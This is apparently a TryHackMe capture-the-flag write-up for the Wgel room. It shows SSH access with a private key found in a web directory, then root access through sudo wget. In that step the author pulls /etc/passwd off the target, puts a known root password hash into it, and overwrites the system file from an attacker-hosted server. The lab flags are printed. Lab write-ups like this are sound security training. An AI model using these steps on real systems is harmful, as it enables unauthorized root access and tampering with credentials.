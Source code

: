 # TRYHACKME - Wgel CTF

I am going to make this fast cuz it's a easy room!

**nmap**: port 22, 80

## 80 apache: 

Comment from `/` directory --> *credential found*: `jessie`

*Brute-forcing* --> `/sitemap/id_rsa` --> get that sh*

## 22 SSH:
```bash
chmod 700 id_rsa
scp -i id_rsa /opt/linpeas.sh jessie@$IP:/tmp # transfer file via ssh
ssh -i id_rsa jessie@$IP
# .......
```
**From /home/jessie/user.txt**:

**user flag**: `057c67131c3d5e42dd5cd3075b198ff6`

## Privilege Escalation
Run `linpeas` --> `(root) NOPASSWD: /usr/bin/wget`

Ok, we can using `wget` with root permission to overwrite linux credential file like `/etc/passwd` with *option* `-O` for output document file

**passwd file format**: *reference* -> `https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/`
![passwd file format](passwd-file-format.png)

  **1. Username**: It is used when user logs in. It should be between 1 and 32 characters in length.

  **2. Password**: An `x character indicates that encrypted password is stored in /etc/shadow file`. Please note that you need to use the passwd command to computes the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file.

  **3. User ID (UID)**: Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.

  **4. Group ID (GID)**: The primary group ID (stored in /etc/group file)
  
  **5. User ID Info (GECOS)**: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
  
  **6. Home directory**: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
  
  **7. Command/shell**: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell. For example, sysadmin can use the nologin shell, which acts as a replacement shell for the user accounts. If shell set to /sbin/nologin and the user tries to log in to the Linux system directly, the /sbin/nologin shell closes the connection.

Yes, that `x` is where we gonna modify root password, stop stammering and just do that!!

**From remote machine**:
```bash
cp /etc/passwd /tmp # copy for safety
cd /etc; python3 -m http.server 8989
```

**From attacking machine**:
```bash
wget http://$IP:8989/passwd -O passwd
# we got: root:x:0:0:root:/root:/bin/bash

# encrypt the replacing password first!, we using python for that
```
```python
import encrypt
encrypt.encrypt('admin')
# return: $6$rM9TXpSZoOnQgVfQ$tkz5ER7TUE3u8KkRdoiKYFcxNOieTH3dEEe1E3fU/zzfzAbwl.ixt5y0lnLEGIyyJHq3497yavXu6olwIIH.F/
```

**Modify passwd file**: 
```
root:x:0:0:root:/root:/bin/bash
# to
root:$6$rM9TXpSZoOnQgVfQ$tkz5ER7TUE3u8KkRdoiKYFcxNOieTH3dEEe1E3fU/zzfzAbwl.ixt5y0lnLEGIyyJHq3497yavXu6olwIIH.F/:0:0:root:/root:/bin/bash
# save that!
```

**Host it**:
```bash
python3 -m http.server 80
```

**Back to remote machine**:
```bash
sudo wget http://$TUN-IP/passwd -O /etc/passwd
# done!!

su root
# Password: admin
whoami # root
```

**From /root/root.txt**:

**root flag**: `b1b968b37519ad1daa6408188649263d`
